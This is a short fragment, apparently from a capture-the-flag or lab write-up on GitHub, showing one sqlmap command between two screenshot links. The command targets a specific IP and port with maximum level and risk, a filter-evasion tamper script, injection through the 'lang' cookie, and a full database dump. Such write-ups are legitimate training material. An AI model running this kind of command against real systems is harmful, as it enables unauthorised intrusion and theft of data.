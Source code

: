 
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/541b218d-898c-460f-9c6d-9f2410b69b00)
```
sqlmap -u "http://62.173.140.174:28480/" --batch --level=5 --risk=3 --random-agent -v --tamper=space2comment --all --cookie=lang=*
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a2ac89bd-634e-48e3-89d0-627a356de35e)
